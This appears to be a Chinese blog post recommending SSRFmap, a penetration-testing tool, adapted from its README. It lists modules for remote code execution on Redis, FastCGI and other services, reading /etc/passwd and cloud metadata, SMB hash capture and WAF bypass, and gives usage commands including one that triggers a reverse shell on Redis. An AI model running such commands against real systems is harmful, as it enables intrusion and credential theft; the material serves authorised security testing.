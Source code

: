 ```yaml
---
title: SSRF漏洞自动扫描与利用工具
date: 2024-3-19 13:16:46
tags:
- 渗透工具推荐
categories:
- 工具推荐
---
```




## 简介

SSRF 通常用于利用其他服务上的操作，该框架旨在轻松查找和利用这些服务。SSRFmap 将 Burp 请求文件作为输入和模糊测试的参数。

## Github链接:

https://github.com/swisskyrepo/SSRFmap



## 模块

以下模块已实现并且可以与`-m`参数一起使用。

| 名称           | 描述                                       |
| -------------- | ------------------------------------------ |
| `fastcgi`      | FastCGI 远程代码执行                       |
| `redis`        | Redis 远程代码执行                         |
| `github`       | Github 企业 RCE < 2.8.7                    |
| `zabbix`       | Zabbix 远程代码执行                        |
| `mysql`        | MySQL命令执行                              |
| `postgres`     | Postgres 命令执行                          |
| `docker`       | 通过 API 泄露 Docker 信息                  |
| `smtp`         | SMTP发送邮件                               |
| `portscan`     | 扫描主机的前 8000 个端口                   |
| `networkscan`  | HTTP Ping 扫描网络                         |
| `readfiles`    | 读取文件，例如`/etc/passwd`                |
| `alibaba`      | 从提供者读取文件（例如：元数据、用户数据） |
| `aws`          | 从提供者读取文件（例如：元数据、用户数据） |
| `gce`          | 从提供者读取文件（例如：元数据、用户数据） |
| `digitalocean` | 从提供者读取文件（例如：元数据、用户数据） |
| `socksproxy`   | SOCKS4代理                                 |
| `smbhash`      | 通过 UNC 路径强制 SMB 身份验证             |
| `tomcat`       | 针对 Tomcat Manager 的暴力攻击             |
| `custom`       | 将自定义数据发送到监听服务，例如：netcat   |
| `memcache`     | 将数据存储在 memcache 实例中               |

## 安装和手册

从 Github 存储库进行基本安装。

```shell
$ git clone https://github.com/swisskyrepo/SSRFmap.git
$ cd SSRFmap/
$ pip3 install -r requirements.txt
$ python3 ssrfmap.py

  usage: ssrfmap.py [-h] [-r REQFILE] [-p PARAM] [-m MODULES] [-l HANDLER]
                    [-v [VERBOSE]] [--lhost LHOST] [--lport LPORT]
                    [--uagent USERAGENT] [--ssl [SSL]] [--level [LEVEL]]

  optional arguments:
    -h, --help          show this help message and exit
    -r REQFILE          SSRF Request file
    -p PARAM            SSRF Parameter to target
    -m MODULES          SSRF Modules to enable
    -l HANDLER          Start an handler for a reverse shell
    -v [VERBOSE]        Enable verbosity
    --lhost LHOST       LHOST reverse shell
    --lport LPORT       LPORT reverse shell
    --uagent USERAGENT  User Agent to use
    --ssl [SSL]         Use HTTPS without verification
    --proxy PROXY       Use HTTP(s) proxy (ex: http://localhost:8080)
    --level [LEVEL]     Level of test to perform (1-5, default: 1)
```



## 例子

首先，您需要一个带有参数的请求来进行模糊测试，Burp 请求与 SSRFmap 配合良好。它们应该如下所示。**/data**文件夹中提供了更多示例。

```
POST /ssrf HTTP/1.1
Host: 127.0.0.1:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mysimple.ssrf/
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Connection: close
Upgrade-Insecure-Requests: 1

url=https%3A%2F%2Fwww.google.fr
```



使用`-m`后跟模块名称（`,`如果要启动多个模块，则用 ',' 分隔）。

```
# Launch a portscan on localhost and read default files
python ssrfmap.py -r data/request.txt -p url -m readfiles,portscan
```



如果您需要自定义用户代理，请使用`--uagent`. 某些目标将使用 HTTPS，您可以使用 启用它`--ssl`。

```
# Launch a portscan against an HTTPS endpoint using a custom user-agent
python ssrfmap.py -r data/request.txt -p url -m portscan --ssl --uagent "SSRFmapAgent"
```



有些模块允许您创建回连，您必须指定 LHOST 和 LPORT。SSRFmap 还可以侦听传入的反向 shell。

```
# Triggering a reverse shell on a Redis
python ssrfmap.py -r data/request.txt -p url -m redis --lhost=127.0.0.1 --lport=4242 -l 4242

# -l create a listener for reverse shell on the specified port
# --lhost and --lport work like in Metasploit, these values are used to create a reverse shell payload
```



当目标受 WAF 或某些过滤器保护时，您可以尝试使用参数的各种有效负载和编码`--level`。

```
# --level : ability to tweak payloads in order to bypass some IDS/WAF. e.g: 127.0.0.1 -> [::] -> 0000: -> ...
```



## SSRFmap 测试



可以使用 SSRF 服务来快速测试框架`data/example.py`。

```
FLASK_APP=data/example.py flask run &
python ssrfmap.py -r data/request.txt -p url -m readfiles
```